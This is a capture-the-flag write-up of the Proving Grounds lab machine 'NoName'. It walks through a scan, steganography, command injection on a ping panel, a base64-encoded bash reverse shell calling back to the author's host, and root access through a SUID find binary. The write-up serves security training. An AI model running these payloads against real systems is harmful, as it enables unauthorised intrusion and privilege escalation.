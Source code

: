 ```yaml
---
title: "Proving Grounds - NoName"
date: 2023-05-22 09:31:00 +0300
image: /assets/img/Posts/noname.png
categories: [Offensive security, Intermediate]
tags: [steganography, stegseek, ffuf, SUID, find, nmap, RCE, linux]
---
```


| **Room**   | **NoName**                          |
| ---------- | ----------------------------------- |
| Author     | **offensive-security**              |
| Difficulty | Intermediate                        |

> This is an intermediate machine in offensive security proving grounds testing on some simple streganography and basic enumeration skills.
{: .prompt-tip }

# Let's get started
## Scanning and enumeration
First thing first, we do a simple nmap scan from which we get only `port 80` open. The apache server running on this specific port seems a little outdated. It can a good thing to check if we miss anything to attack.

```shell
└─$ nmap -T4 -sCV 192.168.222.15   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-06-30 23:10 EAT
Nmap scan report for 192.168.222.15
Host is up (0.20s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE    SERVICE   VERSION
23/tcp   filtered telnet
80/tcp   open     http      Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
1053/tcp filtered remote-as
3007/tcp filtered lotusmtap
7921/tcp filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.96 seconds
```
Opening the port, we get a `fake admin area` panel with an input field. It seemed to be a page where the admin can taste wether the machines are up by pinging them. Not here though, its fake, it time we find the real one.

![image](/assets/img/Posts/noname/fake-admin.png)

Whenever we get to a website, we are always recommended to brute force for hidden web directories in the server. We are going to use ffuf. It gives us `admin` directory.

![image](/assets/img/Posts/noname/admin.png)

Visiting the directory we find nothing but images. huh, steganograpphyyyy?? got myself wondering. well. Viewing the source code, we get to see that there are four of them with some `jpg` images among, them. EASY!!

![image](/assets/img/Posts/noname/admin-dash.png)

![image](/assets/img/Posts/noname/images.png)

Downloading them and starting checking for hidden messages in them, i get something in one of the files, which looks like user names. aaargh!

![image](/assets/img/Posts/noname/user.png)

```shell
┌──(prorat㉿prosec)-[~/hacks/offsec/noname]
└─$ cat new.jpeg.out 
admin
Admin
root
admin1
msfadmin
Admin1
```

Checking on the next one, we find a base64 string, nice. 

![image](/assets/img/Posts/noname/bas64.png)

Decoding the string from our terminal using the command `echo "base64-string" | base64 -d`, We get another directory. Impressive!.

![image](/assets/img/Posts/noname/superadmin.png)

Visiting it, we get see the legit ping panel.

![image](/assets/img/Posts/noname/super-ping.png)

Seng a simple ping scan `ping <ip>` does not bring anything, using a pipe symbol `|`to chain the commands, and typing `whoami` returns `www-data`.

![image](/assets/img/Posts/noname/rce.png)

This means that we have `code executation`. with a well crafted payload, we can get a reverse shell on the box. Sending a simple revershell on the ping platform does not connect back which made me assume that there are some filtering on the commands are ran.

## Initial access
We get our one-liner bash revershell `bash -i >& /dev/tcp/192.168.45.205/1337 0>&1` and pass it through base64 to encode it.

![image](/assets/img/Posts/noname/bencode.png)

Then echo the base64 string and pipe it to base64 and decode it, then pipe the output to means which executes it. 
```bash
ping 192.168.45.205 | echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIwNS8xMzM3IDA+JjEK" | base64 -d | bash
```
We get a shell as `www-data`
```shell
┌──(prorat㉿prosec)-[~/hacks/offsec/noname]
└─$ nc -nlvp 1337                                 
listening on [any] 1337 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.222.15] 49076
bash: cannot set terminal process group (905): Inappropriate ioctl for device
bash: no job control in this shell
www-data@haclabs:/var/www/html$ 

```
## Upgrading the shell
Start by finding which python version is installed in the machine by running `which python3`. Followed by `python3 -c 'import pty;pty.spawn("/bin/bash")'` to spawn a better-featured bash shell, then `export TERM=xterm` which gives us access to term commands. Then run `CTRL + z` to background the session and `stty raw -echo; fg` which turns off our own terminal echo which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes then finally `stty rows 38 columns 116`.
We now have a stable shell.

Going to the home directory, we find two users, `haclabs` and `yash`. Accessing `yash's` directory, we find our flag. 

```shell
www-data@haclabs:/home/yash$ ls -la
total 36
drwxr-xr-x 5 yash yash 4096 Jul 10  2020 .
drwxr-xr-x 4 root root 4096 Jan 27  2020 ..
-rw------- 1 yash yash    0 Mar 16  2020 .bash_history
-rw-r--r-- 1 yash yash 3771 Jan 27  2020 .bashrc
drwx------ 2 yash yash 4096 Feb  9  2020 .cache
drwx------ 3 yash yash 4096 Jan 27  2020 .gnupg
drwxrwxr-x 3 yash yash 4096 Jan 27  2020 .local
-rw-r--r-- 1 yash yash  807 Jan 27  2020 .profile
-rw-rw-r-- 1 yash yash   77 Jan 30  2020 flag1.txt
-rw-r--r-- 1 yash yash   33 Jul  1 01:35 local.txt
www-data@haclabs:/home/yash$ cat local.txt
<redacted>
www-data@haclabs:/home/yash$ 
```
## Privilege escalation
Who is saying linpeas? Not now. First we need to some manual enumeration before we run linpeas. running a `sudo -l`, we are prompted to enter www-data password. That's a dead end, We then move on and check for any commands that have `SUID` bits set. And we get that we can run `find` as root.

![image](/assets/img/Posts/noname/suid.png)

We then check the command we can ran to abuse the permissions given to us in [GTFObins](https://gtfobins.github.io/) and get root's shell.

![image](/assets/img/Posts/noname/suid-gtfobins.png)

Running the command `find . -exec /bin/sh -p \; -quit` gives us a `#`shell.
```shell
www-data@haclabs:/tmp$ find . -exec /bin/sh -p \; -quit
# whoami
root
# cd /root
# ls
flag3.txt  proof.txt
# cat proof.txt
<redacted>
# 
```

I hope you enjoyed the write up!!. thank you 😁